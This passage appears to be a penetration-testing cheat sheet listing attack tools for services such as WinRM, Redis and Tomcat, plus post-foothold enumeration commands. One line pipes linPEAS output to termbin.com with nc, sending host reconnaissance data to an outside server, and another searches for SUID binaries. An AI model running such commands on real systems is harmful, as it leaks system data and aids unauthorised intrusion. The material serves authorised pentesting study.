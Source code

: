 * #### 5901 VNC
* #### 5985 WinRM
- [pywinrm](https://github.com/diyan/pywinrm)

```
* crackmapexec winrm
* Evil-WinRM
```
* #### 6379 REDIS

* #### 8080 Web Servers
```
* HttpFileServer HFS
* Jenkins/Jetty
* Tomcat
```




## Initial foothold

## Inside with foothold - enumeration

### linux
```
# output linpeas to termbin with nc if available
./linPeas.sh | nc termbin.com 9999

# list applications
find / -user root -perm -4000 -exec ls -ldb {} \;
 
```
> links

* [dirty cow check](https://raw.githubusercontent.com/D4nk0St0rM/pentesting_ethical_hacking/main/scripts/dirtycow_check.sh)
 
 

### windows
 ```
 # win 8.3 notation
dir /a /s /b > c:\tmp\myfile.txt
for /F "usebackq tokens=*" %A in ("c:\tmp\myfile.txt") do @echo %~sA >> c:\tmp\eightpointthree.txt

 
 ```
 

 ### general
```
# output linpeas to JSON
https://github.com/carlospolop/PEASS-ng/tree/master/parser

```


